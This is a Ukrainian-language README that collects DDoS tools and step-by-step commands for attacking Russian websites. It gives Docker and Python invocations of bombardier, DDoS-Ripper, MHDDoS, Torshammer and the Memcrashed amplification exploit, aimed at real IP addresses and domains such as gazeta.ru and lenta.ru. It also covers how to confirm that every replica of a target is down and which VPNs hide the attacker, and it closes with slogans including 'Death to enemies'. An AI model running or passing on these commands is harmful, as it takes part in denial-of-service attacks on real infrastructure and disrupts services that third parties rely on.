 # Збірка DDoS методів

# Туторіали про DDoS
- https://docs.google.com/document/d/18nxvjQuHpAgrJ-t9S9CJ9dPK9_z0F73UrBpBFn7ZyVo/edit
- https://tarahtino.notion.site/tarahtino/DDoS-1505b74f6f8443768dc47e0f4d2ee8b2
- https://zhashkevych.notion.site/zhashkevych/DDOS-1758d62440c34f6186c2cefdeee204a0


## Як провірити чи сайт "впав" остаточно

Справ в тому, що один сайт по домену за собою може мати багато хостів (репліки, лоад балансінг), і тому "завалити" сайт, значить завалити всі його хости по ІП адресах. І тому простий `ping gazeta.ru` або `ping gazeta.ru -s 2048` не навантажить хост і точно не всі інші хости якось сильно зачепить. PING для gazeta.ru показує ІП адресу 81.19.72.5. Але наступного разу, ІП адреса вже може бути інша `ping gazeta.ru` => `PING gazeta.ru (81.19.72.2): 56 data bytes` а ІП адрес є аж 6 (81.19.72.0 - 81.19.72.5).

На сайті https://dnschecker.org/ - можна звірити які саме ІП адреси відносяться до певного домену (сайту якого ви таргетуєте).

Також є команда `nslookup` (Windows, Unix++). Приклад:

```
$ nslookup gazeta.ru

Server:		10.92.0.1
Address:	10.92.0.1#53

Non-authoritative answer:
Name:	gazeta.ru
Address: 81.19.72.2
Name:	gazeta.ru
Address: 81.19.72.5
Name:	gazeta.ru
Address: 81.19.72.0
Name:	gazeta.ru
Address: 81.19.72.1
Name:	gazeta.ru
Address: 81.19.72.4
Name:	gazeta.ru
Address: 81.19.72.3
```

**ping** метод (відкривати в Tor Browser або в будь-якому якщо є окрмеий VPN).

Ці сайти, це аналог звичайного ping-a тільки є дані про репліки (лоад балансінг хости)

```
https://port.ping.pe/194.54.14.186:53
```
*АКТУАЛЬНІ ПИТАННЯ*:
- Префікс на сторінці пише TCP port check, але порт може бути вписани як і 80 (HTTP) так і 443 (HTTPS). Але [тут](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) пише, що і 22 (для `ssh`) і 53 (для DNS) є портами як TCP так і UDP. Треба тільки це підтвердити на тестах.

Клікнути на ОК, і чекати поки інфо рефрешнеться про всі репліки. Ціль - ВСІ ЧЕРВОНІ

А тут вписати ТІЛЬКИ ХОСТ і клікнути UDP port (або Ping для провірки)

```
https://check-host.net/check-udp?host=194.54.14.187
```

*АКТУАЛЬНІ ПИТАННЯ*: 
- чи треба вписувати порт 53 якщо провіряєтсья UDP?


## DDoS-имо з Docker-ом



**Docker** метод 1 (треба VPN)

https://hub.docker.com/r/alpine/bombardier

```
docker run -ti --rm alpine/bombardier -c 10000 -d 3600s -l 194.54.14.186:53/UDP
```

*АКТУАЛЬНІ ПИТАННЯ*: 
- так треба `/UDP` чи `/TCP` для портів 22 чи 53 в кінці? Чи можна міксувати протоколи і порти з цими суфіксами? Чому люди міксують? 
- І взагалі пишуть, що bombardier не працює з TCP/UDP. Треба провірити хелп.

**Docker** метод 2 (треба VPN) - TBD




## DDoS-имо з Python-ом



**DDoS-Ripper** PYTHON метод (треба VPN)

https://github.com/palahsu/DDoS-Ripper

```
git clone https://github.com/palahsu/DDoS-Ripper.git
cd DDoS-Ripper
python3 DRipper.py -s 194.54.14.186 -p 53 -t 135 -q 10000 
```

**runner** (обгортка над DDoS Runner)

https://github.com/nitupkcuf/runner
що загалом в мене так і не запрацювало толком

```
brew install --cask docker
docker run --rm -it nitupkcuf/ddos-ripper:latest {HOSTNAME | IP}
```

*АКТУАЛЬНІ ПИТАННЯ*: 
- Треба нормально заінсталити і запустити (бо докер тут ставиться через `cask`)

**MHDDoS** PYTHON (тільки 3) метод (треба VPN)

https://github.com/MHProDev/MHDDoS

```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip3 install -r requirements.txt 
python3 start.py udp 194.54.14.186:53 1000 3600
```

Норм якщо ви бачите "Attack Started !"
Але в мене на іншому компі депси не проінсталиись. рестартував. хз.

*АКТУАЛЬНІ ПИТАННЯ*: 
- Пару раз в мене запустилось, але потім щось пішло не так (потенційно pip vs. pip3).

**Tors Hammer**

```
Download manually from https://sourceforge.net/projects/torshammer/
or 
wget https://iweb.dl.sourceforge.net/project/torshammer/Torshammer/1.0/Torshammer%201.0.zip
unzip Torshammer\ 1.0.zip
cd Torshammer\ 1.0
./torshammer.py -t lenta.ru -p 80 -t 1024
```

Щоб вийти з процесу треба Ctrl + Z (бо Ctrl + C не виходить)
Норм коли пише
Posting: щось там....
і connected to host...

*АКТУАЛЬНІ ПИТАННЯ*: 
- Спочатку працювало для більшості хостів, а потім як я заінсталив через піп3 депенденсіс для MHDDoS то щось пішло не так.


**Memcrashed** Python + Docker

https://blog.cloudflare.com/memcrashed-major-amplification-attacks-from-port-11211/
https://github.com/649/Memcrashed-DDoS-Exploit

```
git clone https://github.com/649/Memcrashed-DDoS-Exploit.git
cd Memcrashed-DDoS-Exploit
echo "SHODAN_KEY" > api.txt
docker build -t memcrashed .
docker run -it memcrashed
```
Але вимагає ключа для Schodan АПІ => https://www.shodan.io/

*АКТУАЛЬНІ ПИТАННЯ*: 
- Якось отримати ключ і спробувати. Може має сенс.



# VPN 

**ClearVPN**
Цитата з Телеграм каналу [DDOS по країні СЕПАРІВ](https://t.me/+97Y45he5lOI2ZTky)

> Інфовоїни! Для наших бешкецтв потрібний надійний захист. Наші друзі з MacPaw дають промокод на ClearVPN, користуйтесь на здоров'я.

> Infowarriors! Our riots need reliable protection. Our friends from MacPaw give a promo code on ClearVPN, enjoy. 

https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE

Треба зареєструватись, і вже тоді собі скачати програму для вашої ОС.
Правда той код діє до 2023го року тільки.

До речі, Росія в списку є.
Але IMHO, не зручний "переключатор країн", адже треба Деактивувати спочатку, потім ІП адреса стає ваша звичайна, потім Активувати, програмка підключає і міняє ІП адресу, що є відносно але довго в секундах. ExpressVPN по відчуттях переключає моментально.

**Інші**: 
- NordVPN https://nordvpn.com/, 
- Psiphon https://psiphon.ca/en/download.html?psiphonca
- ProtonVPN https://protonvpn.com/pricing (але пишуть, що є баг)
- SurfShark https://surfshark.com/deal/influencer?coupon=NETSTALKERS (увага - лінк з купоном)
- UrbanVPN https://www.urban-vpn.com/ (але пишуть що "сливает данные")
- ExpressVPN https://www.expressvpn.com/ (сам юзаю, бо на швидку руку купив перший попавший з найкращих, і пішло... Важливо, що Росії в списку не має)
- https://www.vpngate.net
- https://www.freeopenvpn.org

*VPN для Android*
- Secure VPN https://play.google.com/store/apps/details?id=com.fast.free.unblock.secure.vpn&hl=en_US&gl=US

# Слава Україні!

# Героям Слава!

# Слава Нації!

# Смерть Ворогам!

# Україна понад усе!

PS. Maintained by @Andrii_L
